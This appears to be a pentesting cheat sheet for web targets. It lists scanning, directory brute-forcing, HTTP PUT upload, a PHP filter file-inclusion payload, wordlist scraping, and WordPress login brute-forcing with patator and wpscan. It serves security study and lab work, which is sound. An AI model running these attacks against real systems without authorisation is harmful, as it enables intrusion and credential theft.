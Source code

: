 # Web

- [Scan](#scan)
- [Forced Browsing](#forced-browsing)
- [Manual Browsing with Burp](#manual-browsing-with-burp)
- [Scraping](#scraping)
- [Password Attacks](#password-attacks)
- [CMS](#cms)
- [PHP](#php)


## Scan

nikto -h $ip -p 80

wfuzz -c -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --hc 404 http://$ip

nmap NSE scripts

### Get Methods

PUT             
curl --upload-file test.txt -v --url hxxp://192.168.126.129/test/test.txt -0 --http1.0

DELETE          
Delete htaccess, or access control

## Forced Browsing

dirb http://$ip /usr/share/wordlists/dirb/common.txt

dirb http://$ip /usr/share/wordlists/dirb/vulns/apache.txt

dirb http://$ip /usr/share/wordlists/dirb/directory-list-2.3-medium.txt

## Manual Browsing with Burp

Add to Scope, Show only in-scope items

Browse all pages, enter data on all forms
Robots.txt
Dirb pages
Get Apache/PHP versions


http://$ip/?page=php://filter/convert.base64-encode/resource=login
curl -s "http://$ip/?page=php://filter/convert.base64-encode/resource=index" | grep -e '[^\ ]\{40,\}' | base64 -d

Inspect source code - JavaScript, XML, HTML
Inspect interesting images, strings
Identify CMS

|||
|-|-|
|Silverstripe|droopescan|
|Wordpress|wpscan, droopescan|
|Joomla|joomscan|
|Drupal|droopescan, cmsmap|
|Vbulletin|vbscan|


 /usr/share/wfuzz/wordlist/Injections and Grep - Extract for Error, SQL
 Cookies, parameters, passwords with Intruder
 Sessions with Sequencer

## Scraping 

cewl --write fscipt.lst -m 3 hxxp://127.0.0.1/fscript.html
cewl hxxps://en.wikipedia.org/wiki/List_of_occult_terms -m4 -d0 -w listofwords.txt
cd /opt/brutescrape && gedit sites.scrape and input websites to be scraped
wget $ip/index.html; grep “href=” index.html | cut -d “/” -f 3 | grep “\.” | cut -d '”' -f 1 | sort -u
wget $site | strings

## Password Attacks

patator http_fuzz url='http://$ip/wordpress/wp-login.php' method=POST \
body='log=admin&pwd=FILE0&wp-submit=Log+In&redirect_to=%2Fwordpress%2Fwp-admin%2F&testcookie=1' \
0='/usr/share/wordlists/rockyou.txt' follow=1 accept_cookie=1 -x ignore:fgrep='Lost your password?' \
header='Cookie: wordpress_test_cookie=WP+Cookie+check' -x quit:fgrep!='Lost your password?',clen!='-1'

## CMS

### Wordpress

wpscan -e vp -u 10.0.2.6/prehistoricforest (vulnerable plugins)
wpscan -e u -u 10.0.2.6/prehistoricforest (users)
wpscan -u 10.0.2.6/prehistoricforest --username tom --wordlist /usr/share/wordlists/rockyou.txt --threads 50
wpscan -u $ip --wordlist ~/list.dic --username elliot
wpscan --url $ip --enumerate vp

### Joomla

joomscan -u http://$ip:8081

## PHP
